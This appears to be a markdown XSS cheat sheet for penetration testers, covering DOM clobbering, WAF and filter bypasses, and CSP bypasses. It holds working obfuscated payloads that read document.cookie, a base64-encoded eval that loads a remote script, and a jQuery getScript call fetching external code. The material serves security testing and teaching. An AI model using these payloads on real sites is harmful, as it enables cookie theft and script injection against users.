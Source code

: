 # XSS

## Awesome Cheat Sheets

- [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

- [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## DOM Based XSS

Useful references:
- [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
- [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
- [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element 
```html
<p id="CONFIG"></p>
```
 creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared 
 with the same name.

References:

- [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

---

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of 
 `/[a-z().]/` characters. Example:

```
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```js
window["document"]["cookie"]
```

Call `alert` from `window` example:

```js
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```js
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://example.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")
```

References:

- [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS.
 It uses only six different characters to write and execute code. But the payload is very long. You can reduce the 
 payload using the methods described in the article [Bypass Uppercase filters like a PRO (XSS Advanced Methods)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment)
 and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment)
 in ECMA specification. The following is valid JS comment syntax:

```js
-->valid_comment_style
```

References:

- [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
- [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
- [Challenge in Cure53 XSS wiki (the idea for the Bounty Pl33z)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

---

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers
 seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```html
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

#### Bypass using JSONP

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.
